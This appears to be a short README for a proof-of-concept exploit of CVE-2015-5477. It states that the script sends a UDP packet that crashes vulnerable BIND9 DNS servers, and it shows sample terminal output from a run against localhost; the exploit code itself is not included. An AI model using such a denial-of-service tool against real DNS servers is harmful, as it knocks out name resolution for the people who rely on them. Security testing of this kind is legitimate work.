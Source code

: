 PoC for CVE-2015-5477 BIND9 TKEY DoS
This code sends UDP packet that crashes vulnerable BIND9 DNS servers.

```bash
thenothing㉿thenothing:~/Desktop$ ./CVE-2015-5477.py localhost
CVE-2015-5477 BIND9 TKEY PoC
Sending packet to localhost ...
Done.
```
